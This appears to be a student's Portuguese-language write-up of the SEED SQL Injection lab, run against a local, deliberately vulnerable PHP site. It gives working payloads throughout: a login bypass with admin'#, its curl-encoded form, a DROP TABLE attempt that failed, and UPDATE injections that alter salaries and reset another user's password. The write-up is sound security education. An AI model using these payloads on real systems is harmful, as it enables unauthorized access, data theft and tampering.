

# SQL Injection Lab

## Environment Setup

> Primeiramente para resolver este _lab_ começamos por adicionar ```www.seed-server.com``` aos _hosts_ fazendo ```sudo nano etc/hosts``` e adicionando ```10.9.0.5 www.seed-server.com```. Depois executamos os containers com ```docker-compose build``` e ```docker-compose up```. E depois fazemos ```docksh 88``` para abrir o MYSQL container e por último fazemos ```mysql -u root -pdees``` e ```use sqllab_users;``` para executar o mysql como superuser e selecionar o schema.

## Task 1: Get Familiar with SQL Statements

> A tarefa envolveu a seleção de dados para o _user_ "Alice".  Inspecionando o ficheiro ```sqllab_users.sql``` conseguimos rapidamente identificar o comando correto para realizar esta operação:
> ```sql
> SELECT * FROM `credential` WHERE Name = "Alice";
> ```
> Conseguimos assim obter todos os dados da Alice:


##  Task 2: SQL Injection Attack on SELECT Statement

### Task 2.1 - Login in adminstrator mode from webpage

> Exploramos o _site_ ```www.seed-server.com``` fornecido pelo _Docker_, bem como o ficheiro ```unsafe_home.php```. Observamos que a _query_ é vulnerável, pois o servidor gera dinamicamente o comando com _strings_ não sanitizadas provenientes da entrada do _user_:
> ```sql
> SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password FROM credential WHERE name= '$input_uname' and Password='$hashed_pwd'
> ```
> Aproveitando o facto de o campo da _password_ ser criptografado, torna-se vantajoso manipular a funcionalidade de pesquisa utilizando apenas o campo do _username_.<br> Ao utilizar ```admin'#```, asseguramos acesso privilegiado, pois toda a verificação da chave de acesso torna-se irrelevante ao ser comentada. Dessa forma, o código executado no lado do servidor passa a ser o seguinte:
> ```sql
> SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password FROM credential WHERE name='admin'# and Password=’$hashed_pwd’
> ```
> Conforme antecipado, conseguimos fazer login na conta do administrador, possibilitando assim a obtenção de todos os dados relacionados aos demais usuários do aplicativo:


### Task 2.2 - Login in adminstrator mode from command line

> O ataque foi realizado através de um pedido GET. Como por exemplo a seguinte linha:
>```bash
>curl "www.seed-server.com/unsafe_home.php?username=username&Password=password"
>```
> Com o mesmo _input_ da secção anterior, desta vez cifrado usando as convenções (%27 = ' e %23 = #), obtivemos o seguinte comando malicioso:
> ```bash
> curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
> ```
> Com isso, conseguimos obter o código HTML de toda a página que continha as informações pessoais dos utilizadores.


### Task 2.3 - Append a new SQL statement

> Podemos inserir novos comandos SQL usando ```;```. Para realizar isso, modificamos a nossa entrada maliciosa inicial para causar um efeito colateral no servidor. Por exemplo, excluindo a tabela de credenciais:
> ```sql
> admin'; DROP TABLE IF EXISTS credentials; #
> ```
> Contudo esta operação nao foi executada por um erro na base de dados:

> Conforme indicado nesta [fonte](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão MySQL utilizada pelo PHP no servidor possui uma salvaguarda que previne a execução de várias consultas simultâneas, o que resultou na impossibilidade de concluir o ataque.

## Task 3: SQL Injection Attack on UPDATE Statement

### Task 3.1 - Modify your own salary

> Depois de realizar o _login_ com uma conta do sistema (username: Alice e password: seedalice), ganhamos acesso a uma página para editar informações pessoais. Essa página é gerida pelo ficheiro fornecido ```unsafe_edit_backend.php```, que contém uma consulta também construída dinamicamente com _strings_ não sanitizadas provenientes da entrada do utilizador. O nosso ataque envolve a manipulação do número de telefone. Utilizando a mesma técnica dos tópicos anteriores, conseguimos criar o seguinte código capaz de manipular o salário do utilizador:
> ```sql
> 910000000',Salary='1111111
> ```
> É relevante notar que a ' antes do valor do salário é crucial para concluir a última instrução antes do ```WHERE```. Em última análise, o servidor executou o seguinte código:
> ```sql
> UPDATE credential SET
> nickname='$input_nickname',
> email='$input_email',
> address='$input_address',
> Password='$hashed_pwd',
> PhoneNumber='910000000',Salary='1111111' WHERE ID=$id;
> ```
> Tal como previsto, a variável salário foi também alterada para o valor escolhido:


### Task 3.2 - Modify other people’s salary

> Para alterar o valor do salário de outro utilizador usamos uma técnica parecida com a anterior. No entanto criamos uma WHERE clause diferente e comentamos a que estava no sistema para não interferir na pesquisa:
```sql
910000000',Salary='1' WHERE Name='Boby'#
```
> Com este input, o servidor executou o seguinte código:
> ```sql
> UPDATE credential SET
> nickname='$input_nickname',
> email='$input_email',
> address='$input_address',
> Password='$hashed_pwd',
> PhoneNumber='910000000',Salary='1' WHERE Name='Boby'# WHERE ID=$id;
> ```
> Aqui podemos ver o valor do salário do Boby depois do ataque:


### Task 3.3 - Modify other people’s password

> Para modificar a _password_ de outro utilizador, aplicamos uma abordagem semelhante à anterior. No entanto, desta vez, o valor a ser alterado foi previamente criptografado com ```SHA1```. Por exemplo, para a nova senha ```porto```, o hash correspondente é ```f964830041e7f6e73528372085ba3cb8c2717e1b```.
> ```sql
> 910000000', password='f964830041e7f6e73528372085ba3cb8c2717e1b' WHERE name='Boby'#
> ```
> Com este _input_, o servidor executou o seguinte código:
> ```sql
> UPDATE credential SET
> nickname='$input_nickname',
> email='$input_email',
> address='$input_address',
> Password='$hashed_pwd',
> PhoneNumber='910000000', password='f964830041e7f6e73528372085ba3cb8c2717e1b' WHERE name='Boby'# WHERE ID=$id;
> ```
> Com a nova palavra passe alterada, conseguimos entrar na conta do Boby:
